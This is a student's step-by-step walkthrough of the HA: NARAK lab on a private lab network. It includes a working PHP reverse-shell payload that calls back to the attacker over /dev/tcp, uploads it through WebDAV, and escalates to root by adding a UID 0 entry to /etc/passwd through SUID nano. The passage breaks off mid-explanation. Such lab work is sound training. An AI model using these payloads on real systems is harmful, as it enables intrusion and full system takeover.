# Week 8 Lab: From Netcat to Metasploit (HA: NARAK)
Walkthrough and revision notes for the NARAK lab (From Netcat to Metasploit), covering network and web enumeration, TFTP retrieval, Base64 decoding, WebDAV upload to reverse shell, privilege escalation to root, and basic countermeasures.

Machines used:
- Kali Linux: `192.168.59.133`
- Target Machine: `192.168.59.152`

---

## Step 1: Check Local IP and Find the Target on the Network

Before scanning anything, I need to know my own IP address and subnet so I can find the target machine on the local network.

Commands:
```bash
ip a
sudo arp-scan --localnet
```



Figure 1 - Confirming the local Kali IP (`192.168.59.133`) and discovering the target host (`192.168.59.152`) on the local network.

---

## Step 2: Service, Version, and OS Scan with Nmap

Now that I have the target IP `192.168.59.152`, I want to see which TCP ports are open, what services and versions are running on them, and guess the operating system.

Command:
```bash
nmap -A 192.168.59.152
```

Findings from scan:
- Port `22/tcp` open: SSH (`OpenSSH 7.6p1 Ubuntu`)
- Port `80/tcp` open: HTTP (`Apache httpd 2.4.29`, title `HA: NARAK`)
- OS details point to Linux (`Ubuntu` / kernel `3.2 - 4.14`).

 
screenshots/02-nmap-service-os-scan.png
Figure 2 - Service, version, and OS scan of `192.168.59.152`, identifying open SSH (port 22) and HTTP (port 80, Apache/Ubuntu).

---

## Step 3: Web Server Scan with Nikto

Since port 80 is running Apache, I will run Nikto to look for basic web server misconfigurations, missing headers, outdated server versions, and interesting paths.

Command:
```bash
nikto -host http://192.168.59.152
```
 
 

Figure 3 - Nikto scan output against `http://192.168.59.152` highlighting server headers, missing security headers, and directory/configuration findings.

---

## Step 4: Manual Web Inspection in Browser

 Automated scanners miss visual context and page structure, so I open the site in the browser to see what the application (`HA: NARAK`) looks like and check links.

 
Figure 4 - Browser view of the initial web page hosted on port 80 (`HA: NARAK`).

---

## Step 5: Directory Enumeration with dirb

Nikto and browser inspection only show what is obvious. I want to brute-force common directories and files on the web server to find hidden paths.

Command:
```bash
dirb http://192.168.59.152/
```

What I found:
- `/images/` (directory listing enabled)
- `/index.html` (`200 OK`)
- `/server-status` (`403 Forbidden`)
- `/webdav` (`401 Unauthorized` - asks for login)

 

Figure 5 - Directory brute-force results identifying `/images/`, `/index.html`, `/server-status` (403), and `/webdav` (401).

---

## Step 6: Checking the `/webdav` Login Prompt

`/webdav` returned a 401 status code, which means it is protected by HTTP authentication. I checked it in the browser to confirm the login prompt.

 

Figure 6 - HTTP authentication prompt encountered when accessing `/webdav`.

---

## Step 7: Searching for `.txt` Files with `dirb`

Because `/webdav` needs credentials, I will look for text files on the web root that might contain hints or notes.

Command:
```bash
dirb http://192.168.59.152/ -X .txt
```

Result: Found `http://192.168.59.152/tips.txt`.

 

Figure 7 - Extension-specific scan discovering `/tips.txt`.

---

## Step 8: Reading `/tips.txt`

 I open `/tips.txt` in the browser to read whatever note or hint is inside.

 

Figure 8 - Contents of `/tips.txt` referencing `creds.txt`.

It tells me a hint to open the door of narak is in `creds.txt`.

---

## Step 9: UDP Scan to Find File Transfer Service

 `creds.txt` was not found as a standard web file in the root scan, and TCP scan did not show FTP/SMB. Some file transfer services like TFTP run over UDP, so I will scan top UDP ports.

Command:
```bash
nmap -sU --top-ports 20 192.168.59.152
```

What each part means:
- `-sU` performs a UDP scan (needed because UDP services do not respond like TCP SYN scans).
- `--top-ports 20` checks the 20 most common UDP ports so the scan finishes quickly.
  
Finding: Port `69/udp` (`tftp`) shows as `open|filtered`.

 
 Figure 9 - UDP port scan revealing tftp on port 69/udp (open|filtered).

---

## Step 10: Connecting to TFTP and Downloading `creds.txt`

With TFTP on port 69, I can connect using the `tftp` client and try to pull `creds.txt` without needing authentication.

Commands:
```bash
tftp 192.168.59.152
```

Commands inside `tftp` prompt:
```text
get creds.txt
help
quit
```

Command after exiting `tftp`:
```bash
cat creds.txt
```


 

 Figure 10 - Retrieving `creds.txt` via TFTP, viewing available commands with `help`, exiting with `quit`, and inspecting the encoded file contents.

---

## Step 11: Decoding Base64 Credentials

The text inside `creds.txt` (`eWFtZG9vdDpTd2FyZw==`) ends with `==` and uses Base64 characters, so it looks Base64-encoded. I will decode it to see if it holds login credentials.

Commands:
```bash
cat creds.txt
echo "eWFtZG9vdDpTd2FyZw==" | base64 -d
```

What each part means:
- `echo "eWFtZG9vdDpTd2FyZw=="` outputs the encoded string.
- `|` (pipe) sends the output of `echo` as input to the next command.
- `base64 -d` decodes (`-d`) the Base64 string into plain text.

Decoded output: `yamdoot:Swarg` (username `yamdoot`, password `Swarg`).

 

Figure 11 - Decoding `creds.txt` with `base64 -d` to reveal `yamdoot:Swarg`.

---

## Step 12: Logging In to `/webdav/`

I will test `yamdoot:Swarg` on `http://192.168.59.152/webdav/` in the browser to see if we get access to the WebDAV directory.

 

Figure 12 - Successful authentication to `/webdav/` using the recovered credentials.

---

## Step 13: Creating and Uploading a PHP Reverse Shell (`shell.php`)

WebDAV often allows file uploads. If `/webdav` is served by Apache with PHP enabled, uploading a PHP script and requesting it will execute code on the server and give me a reverse shell back to Kali (`192.168.59.133`).

Commands:
```bash
nano shell.php
cadaver http://192.168.59.152/webdav
```

Content put inside `shell.php` using `nano`:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.59.133/1234 0>&1' "); ?>
```

Command inside `cadaver` (after entering username `yamdoot` and password `Swarg`):
```text
put /home/kali/shell.php
```

What each part means:
- `nano shell.php` opens the `nano` text editor to create `shell.php`.
- `<?php exec("..."); ?>` runs an operating system command inside PHP.
- `/bin/bash -c '...'` runs a Bash command string.
- `bash -i >& /dev/tcp/192.168.59.133/1234 0>&1` starts an interactive Bash shell (`-i`) and redirects input/output over a TCP connection to my Kali IP `192.168.59.133` on port `1234`.
- `cadaver http://192.168.59.152/webdav` is a command-line WebDAV client used to interact with the WebDAV share.
- `put /home/kali/shell.php` uploads the local `shell.php` file to the remote `/webdav` directory.

 
Figure 13 - Creating `shell.php` and uploading it to `/webdav` via `cadaver`.

---

## Step 14: Confirming `shell.php` Is on WebDAV

I will check the `/webdav/` directory listing in the browser to confirm `shell.php` uploaded properly before triggering it.

 

Figure 14 - Confirming `shell.php` is present on the WebDAV share.

---

## Step 15: Catching the Reverse Shell with Netcat

Before opening `http://192.168.59.152/webdav/shell.php` to trigger the payload, I must start a Netcat listener on port `1234` to catch the incoming connection. Once connected, I will check my current folder and move to `/` to explore the filesystem.

Commands on Kali:
```bash
nc -lvnp 1234
```

Commands once the shell connects (`www-data@ubuntu`):
```bash
ls
cd /
ls
```

What each part means:
- `nc` is Netcat, a networking utility for reading/writing network connections.
- `-l` puts Netcat in listen mode waiting for an incoming connection.
- `-v` enables verbose output so I see connection details.
- `-n` skips DNS resolution and uses numeric IP addresses only.
- `-p 1234` specifies port `1234` to listen on.
- `ls` lists files and folders in the current directory.
- `cd /` changes the current directory to the root directory `/`.

 
Figure 15 - Receiving the reverse shell connection as `www-data` and exploring the root filesystem (`/`).

---

## Step 16: Finding Files with Broad Permissions, Decoding Brainfuck & Getting User Flag

I am currently `www-data` with limited privileges. I will search the filesystem for files that have read, write, and execute permissions for user and group (`-ug=rwx`) to see if there is a readable script or note with useful info or credentials.

Commands in shell:
```bash
find / -type f -perm -ug=rwx 2>/dev/null
cat /mnt/hell.sh
```

What each part means:
- `find /` searches starting from the root directory `/`.
- `-type f` filters results to regular files only.
- `-perm -ug=rwx` looks for files where both user (`u`) and group (`g`) have read (`r`), write (`w`), and execute (`x`) permissions.
- `2>/dev/null` hides permission denied error messages so output stays clean.
- `cat /mnt/hell.sh` prints the contents of `/mnt/hell.sh`.

 
Figure 16 - Finding `/mnt/hell.sh` and viewing the encoded payload inside it.

### Decoding the Brainfuck String

Inside `/mnt/hell.sh`, after `echo"Highway to Hell";`, there is a string made of `+`, `-`, `<`, `>`, `[`, `]`, and `.`. That looks like Brainfuck code, so I will decode it using an online decoder (`splitbrain.org/services/ook`).

Brainfuck string:
```text
--[----->+<]>---.+++++.+.+++++++++++.--.+++[->+++<]>++.++++++.--[--->+<]>--.-----.++++.
```

Decoded result: `chitragupt`.

 
Figure 17 - Decoding the Brainfuck string to `chitragupt`.

### Checking `/home` and Reading `user.txt`

Thought process: `chitragupt` looks like a password. I will check `/home` to see what user accounts exist on the machine and check if I can read `user.txt`.

Commands in shell:
```bash
cd /home
ls
cd inferno
ls
cat user.txt
```

What each part means:
- `cd /home` moves to `/home`, where normal user home directories are stored.
- `ls` lists the user folders (`inferno`, `narak`, `yamdoot`).
- `cd inferno` enters the `inferno` directory.
- `cat user.txt` reads the user flag from `user.txt`.

 

Figure 18 - Navigating `/home`, locating `user.txt` under `inferno`, and reading the user flag.

### Logging In via SSH as `inferno`

Since port 22 (SSH) is open and I have a password candidate (`chitragupt`), I will test logging in via SSH as `inferno` to get a cleaner, more stable shell session.

Command:
```bash
ssh inferno@192.168.59.152
```

What each part means:
- `ssh` connects securely to a remote machine using the SSH protocol.
- `inferno@192.168.59.152` specifies the username `inferno` and target IP `192.168.59.152`.

 

Caption: Figure 19 - Establishing an SSH session as `inferno`.

---

## Step 20: Privilege Escalation via `/etc/passwd` (`nano`) and Reading `root.txt`

Now that I have an SSH session as `inferno`, I want to escalate privileges to `root`. First I will check `nano` and its permissions, test an MOTD line (which fails), and then generate an MD5-crypt password hash to add a new root account (`UID 0`, `GID 0`) into `/etc/passwd` using `nano`.

### Checking `nano` and Testing MOTD

Commands:
```bash
which nano
ls -ls /bin/nano
echo "sudo chmodu+s /bin/nano">> /etc/update-mold.d/00-header
exit
```

What each part means:
- `which nano` shows the path to the `nano` binary (`/bin/nano`).
- `ls -ls /bin/nano` shows file size, permissions, and owner (`-rwsr-xr-x 1 root root`, meaning the SUID bit `s` is set on `/bin/nano`).
- `echo "..." >> ...` tries to append text to a file (this failed because the path `/etc/update-mold.d/00-header` does not exist).
- `exit` closes the current session.

 

Figure 20 - nano & MOTD attempt: Checking `/bin/nano` and attempting to append a command to MOTD.

### Generating a Password Hash with `openssl`

To add a new user with root privileges to `/etc/passwd`, I need a valid password hash for the password field. I will use `openssl passwd` on Kali to generate one.

Command:
```bash
openssl passwd -1 -salt uwlnew pass123
```

What each part means:
- `openssl passwd` generates a password hash in Unix crypt format.
- `-1` selects the MD5-based password algorithm (`$1$...`).
- `-salt uwlnew` sets the salt value to `uwlnew`.
- `pass123` is the plain-text password I am hashing.

 

Figure 21 - Generating a salted password hash with openssl passwd.

### Adding a Root User Entry to `/etc/passwd` via `nano`

 Because `/bin/nano` has the SUID bit set and is owned by `root`, running `nano /etc/passwd` lets me edit `/etc/passwd` with root privileges. Adding a line with `0:0` gives the new account root user ID (`0`) and root group ID (`0`).

Command:
```bash
nano /etc/passwd
```

Line appended to `/etc/passwd`:
```text
uwlnew:$1$uwlnew$UUGWHTSi9i.5LAugAs1Wd.:0:0:root:/root:/bin/bash
```

What each field in the `/etc/passwd` entry means (separated by `:`):
1. `uwlnew` — username.
2. `$1$uwlnew$UUGWHTSi9i.5LAugAs1Wd.` — hashed password for `pass123`.
3. `0` — User ID (`UID` `0` is `root`).
